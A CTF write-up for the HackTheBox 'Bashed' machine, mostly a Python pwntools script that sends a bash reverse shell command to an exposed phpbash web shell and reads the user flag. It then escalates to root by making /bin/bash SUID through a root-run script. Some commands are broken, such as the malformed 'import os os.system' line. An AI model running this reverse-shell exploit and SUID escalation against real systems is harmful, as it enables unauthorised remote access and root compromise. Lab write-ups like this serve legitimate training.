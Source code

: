 ```yaml
---
title: Bashed Machine HackTheBox
date: 2022-11-11 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description 

This machine will be pwned with a simple script, and an easy Priv Escalation.

>So lets run the following script, which will get us into the machine and report us the flag
{: .prompt-tip}

```python
#!/usr/bin/python3

from pwn import *
import signal, requests, time, sys, os

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+Ctrl
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:
    print("Modo de uso: %s + <ip-address>" % sys.argv[0])
    sys.exit(1)

#Declaracion de variables globales

ip_address = sys.argv[1]
main_url = "http://%s/dev/phpbash.min.php" % ip_address
header = {"Content-Type": "application/x-www-form-urlencoded"}
lport = 7007

def getAccess():

    data_post = {
        'cmd' : 'cd /var/www/html/dev; bash -c "bash -i >&/dev/tcp/<YOUR____IP>/7007 0>&1"'
      }

    r = requests.post(main_url, data=data_post, headers=header)
    
if __name__ == '__main__':

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("cd /home/arrexel")
    time.sleep(2)
    shell.sendline("cat user.txt")
    shell.interactive()
```
We can run the script with the following command:

```bash
python3 file_name.py target_ip
```
>Now we can submit user flag
{: .prompt-info}

Now, all we gotta do is:

```bash

cd /script
echo "import os os.system("chmod u+s /bin/bash")" > test.py
```
But why?

Well, in /scripts we can see 2 files: test.txt and test.py, from where the text.py text is moved written to test.py, so we can make /bin/bash a SUID.
If we ls -l, we can see test.txt is owned by root, se we can assum that anything inside test.py will also be run as root.

If we now wait 1 min, we can run:
```bash
/bin/bash -p
```
>And now we are able to cd into /root and submit the root flag!
{: .prompt-danger}
